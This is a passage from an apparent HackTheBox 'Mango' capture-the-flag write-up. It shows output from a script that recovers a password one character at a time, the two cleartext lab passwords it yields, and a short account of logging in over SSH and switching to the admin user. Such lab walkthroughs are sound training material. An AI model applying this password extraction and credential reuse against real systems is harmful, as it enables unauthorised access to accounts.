 ```
root@kali:~/htb/mango# ./mango.py 
Charset abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~

t
t9
t9K
t9Kc
t9KcS
t9KcS3
t9KcS3>
t9KcS3>!
t9KcS3>!0
t9KcS3>!0B
t9KcS3>!0B#
t9KcS3>!0B#2
t9KcS3>!0B#2
```

I just replace `admin` by `mango` and run it again. I got the following passwords now:

admin: `t9KcS3>!0B#2`
mango: `h3mXK8RhU~f{]f5H`

## Getting a shell as user admin

I can SSH to the machine and su to `admin` since I also have the password for that user:

![](/assets/images/htb-writeup-mango/shell1.png)
